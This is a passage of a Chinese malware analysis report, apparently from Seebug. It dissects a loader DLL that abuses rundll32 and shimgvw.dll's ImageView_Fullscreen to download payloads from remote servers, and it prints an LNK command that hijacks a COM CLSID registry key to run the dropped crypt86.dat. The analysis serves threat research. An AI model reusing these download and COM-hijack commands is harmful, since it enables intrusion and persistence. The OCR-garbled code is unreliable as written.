 #### 2.2.3类型3分析描述  

类型3中初始dll中字符串为明文状态：  

\*this $=0$   
this[1] $=0$   
this[2] $=6$   
this[3] $=6$   
this[4] $=~\theta.$   
this[5] $=~\theta$   
ModuleHandleW $=$ GetModuleHandleW(L"kernel32.dll");   
\*this $=$ GetProcAddress(ModuleHandleW, "LoadLibraryA");   
this[1] $=$ GetProcAddress(ModuleHandleW, "GetEnvironmentVariableW"); this[2] $=$ GetProcAddress(ModuleHandleW, "FindFirstFileW");   
this[3] $=$ GetProcAddress(ModuleHandleW, "FindNextFilew");   
return this; Seebug  

滥用合法的windows的照片库查看器组件shimgvw.dll，通过其中的函数ImageView_Fullscreen，从远程服务器上下载文件eqlist.txt和mylink.tmp:  

vswprintf_10001006(Buffer,255u,(wchar_t \*)L"https://s /eqlist.txt"，v1);   
vswprintf_10001006( CommandLine, 255u, (wchar_t\*)L"rundl132.exeC:\\Windows\1System32\\shimgvw.dll,ImageView_Fullscreen %s", (char)Buffer);   
if ( CreateProcessW(0, CommandLine,0, 0, 0, Ox80ooooou, 0, 0,&StartupInfo, &ProcessInformation）)   
{ vswprintf_10001006(v7,255u,（wchar_t\*)L"https:// 2/mylink.tmp",v2); vswprintf_10001006( CommandLine, 255u, (wchar_t \*)L"rundl132.exe C:\Windows\ISystem32\\shimgvw.dll,ImageView_Fullscreen %s", (char)v7); if（CreateProcessW(0, CommandLine,0, 0,0,θx8ooooou,0,0,&v5，&hProcess）)  

# 其中eqlist.txt使用类型1中相同的解密步骤解密并释放出%appdata%\\Microsoft\\Crypto\\crypt86.da和%localappdata%\\Microsoft\\Proofs\\profapi.da  

vswprintf_10001006(Src, Ox1F4u, (wchar_t \*)L"%userprofile%%\\AppData\\Local\\Microsoft\\Windows\\INetCache\\IE");   
ExpandEnvironmentStringsW(Src, Dst, 0x1F4u);   
vswprintf_10001006(Src, 0x1F4u, (wchar_t \*)L"%%appdata%%\\Microsoft\\Cryptol\crypt86.da");   
ExpandEnvironmentStringsW(Src, v5, 0x1F4u);   
vswprintf_10001006(Src, 0x1F4u, (wchar_t \*)L"%%localappdata%%\\Microsoft\\Proofs");   
ExpandEnvironmentStringsW(Src, Path, 0x1F4u);   
wmkdir(Path);   
vswprintf_10001006(Src, 0x1F4u, (wchar_t \*)L"%%localappdata%%\\Microsoft\\Proofs\\profapii.da");   
ExpandenviroomentStrings Src, Pth, ox1F4u); TSeebug  

mylink.tmp下载后存储为%temp%\mylink.lnk，Ink文件的功能是将之前释放的文件crypt86.da和profapil.da分别重命名为crypt86.dat和profapi.dat，并劫持系统COM组件0b91a74b-ad7c-4a9d-b563-29eef9167172，利用该COM组件执行crypt86.dat:  

RelativePath:......\..\..\.\Windows\System32\cmd.exe   
WorkingDirectory:%temp%   
Arguments:/cregadd HKCu\Software\Classes\CLSID\{ob91a74b-ad7c-4a9d-b563-29eef91671723\InProcServer32/ve/tREG_EXPAN D_SZ/d %Userprofile%\AppData\Roaming\Microsoft\Crypto\crypt86.dat"/f/reg:64&&ren%appdata%\Microsoft\Crypto\crypt8 6.dacrypt86.dat&ren%localappdata%\Microsoft\Proofs\profapii.da profapii.dat   
IconLocation:%SystemRoot%\System32\SHELL32.dll Seebug  

#### 2.2.3.1crypt86.dat分析描述  
